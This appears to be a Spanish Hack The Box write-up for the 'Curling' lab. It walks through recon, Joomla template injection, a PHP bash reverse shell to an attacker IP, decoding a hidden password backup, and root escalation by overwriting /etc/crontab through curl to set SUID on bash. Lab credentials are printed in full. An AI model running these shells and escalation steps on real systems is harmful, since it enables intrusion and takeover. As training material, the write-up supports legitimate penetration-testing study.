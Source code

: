 ```yaml
---
title: Writeup curling - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - curling
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina curling en Hack The Box.
keywords:
  - writeup curling
  - hack the box curling
  - resolución máquina curling
  - curling hack the box
  - htb curling
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Curling)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=bW7qDzB0kfs)|[Parte2](https://www.youtube.com/watch?v=E8MILfksvm0)|[Parte3](https://www.youtube.com/watch?v=TLPnbmdldo0)
- 🧠 **Explicación resumida**: 

---

#easy #linux #nmap #ping #rce

-------
# Guided Mode



---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]
```shell
ping -c 1 10.10.10.150
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.150 -oG allports
extract Ports allports
nmap -sCV -p22,80 10.10.10.150 -oN target
```
![[Curling1.png]]![[Curling2.png]]
*TTL:* Maquina Linux
*Puertos*
	`22` [[ssh]]
	`80` HTTP

--------------
# [[Whatweb-wappalyzer]]
```shell
whatweb http://10.10.10.150
```

![[Curling3.png]]
El whatweb no nos da ninguna información relevante


Este nos da un panel de acceso
	http://10.10.10.150/administrator/
	
Viendo el codigo fuente de la pagina principal http://10.10.10.150 al final de todo nos pone secret.txt
![[Curling4.png]]
Entramos a http://10.10.10.150/secret.txt
![[Curling5.png]]
Es una linea en base64
![[Curling6.png]]
Esta va a ser la contraseña, y el usuario lo saque de esta publicacion
![[Curling7.png]]

Usuario: Floris
Contraseña: Curling2018!

-------------
# [[RCE(Remote Comand Ejecution) En joomla]] y  [[Reverse shell]]

[Articulo que explica como sacar una revershell con joomla](https://www.hackingarticles.in/joomla-reverse-shell/)
Vamos a ir a la parte de templates, 
![[Curling8.png]]

Vamos a seleccionar la parte de templates que esta a la izquierda, y despues vamos a elegir cualquiera en mi caso uso el de beez3
![[Curling9.png]]
Ahora vamos a modificar en mi caso el archivo error.php y le vamos a inyectar este comando. Y guardamos los cambios
```
<?php system("whoami");?>
```
![[Curling10.png]]
Ahora cuando entremos al link
http://10.10.10.150/templates/beez3/error.php nos tendria que aparecer la respuesta del comando whoami
![[Curling11.png]]


Como nos responde que usuarios somos, ya sabemos que hay un RCE, y vamos a intentar mandarnos una [[Reverse shell]]

 ```php
 <?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'");?>
```
Mientras nos ponemos en escucha con [[nc -nlvp 443]]
![[Curling12.png]]
Y listo ya ganamos acceso a la maquina
![[Curling13.png]]

-----------
# [[Apuntes Directo/Herramientas-Comandos/Tratamiento de la TTY|Tratamiento de la TTY]]

----------
# Escalada al usuario floris con [[Tipos de archivo y archivos comprimidos]] y conexion por [[ssh]]

Encontramos esto en el home de floris y vamos a usar la herramienta [[xxd]] ya que esta en hexadecimal, para descifrar el contenido
![[Curling15.png]]
```shell
cat password_backup | xxd -r  > /tmp/pass
```
No da nada legible, asi que al aplicar [[file]] con el comando `file pass` veo que el tipo de archivo es [[bzip2]], despues pasa a ser un [[gzip]], luego un [[bzip2]] nuevamente y por ultimo [[tar]]. Para finalmente con [[cat]] ver la contraseña
```shell
bzip2 -d pass
file pass.out   //Veo que es un gzip
mv pass.out pass.gz
gzip -d pass.gz
file pass // Veo que es un bzip2 de nuevo
bzip2 -d pass
file pass.out // Es un archivo tar ahora
tar xf pass.out
cat password.txt
```

![[Curling16.png]]
*Contraseña:* 5d<wdCbdZu)|hChXll

Ya tenemos una contraseña que aparenta ser de floris, asi que vamos a intentar conectarnos por [[ssh]]

![[Curling17.png]]
Ya podemos sacar la primera flag, y solamente nos faltaria hacernos root para completar el laboratorio

### Escalada a root: Mediante tarea cron

##### Enumeracion
Ejecutamos el [[PSPY]]
![[Curling18.png]]
Vemos en el PID 2872 el curl que manda con el parametro `curl -K`, que sirve para especificar la configuracion mediante un archivo.    [[curl]]

##### Explotacion
Vamos a crear un archivo exploit en un nuestra maquina
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

* * * * * root chmod u+s /bin/bash
```
Vamos a abrir un server con [[python3 -m http.server]]

Contenido del archivo input
```
url = "http://10.10.16.4/exploit"              // En donde esta el 10.10.16.4 va nuestra ip de atacante y despues del / va el nombre del archivo
output = "/etc/crontab"
```

Ahora cuando se ejecute la tarea cron, va a hacer que la bash tenga permisos SUID
![[Curling19.png]]
Una vez que vemos la s, ya sabemos que podemos ejecutar `bash -p` para ganar permisos en la bash
![[Curling20.png]]
Ya estamos logeados como root, asi que podemos visualizar la flag

-------
# Notas

##### Diferencias entre sh, bash y zsh 
*Las 3 utilizan los mismos comandos de base, pero puede haber funcionalidades que tenga la zsh, y que no esten en la sh*
`sh` Es la mas antigua, tiene menos funciones y es la shell original
`bash` Mas completa que la sh y actualizada
`zsh` Es como la bash pero con esteroides y mas personalizable

###### Por que se define la BASH y SHELL en la tarea cron
*SHELL:* Si no se especifica va a usar por defecto una sh, la cual puede ser que no interprete todos los comandos
*PATH:* Si no se pone esto, cron puede no encontrar cosas como python, nc, curl, bash, etc

-----------
# Creditos
[Writeup de lanzt](https://lanzt.github.io/htb/curling)
Writeup oficial de HTB


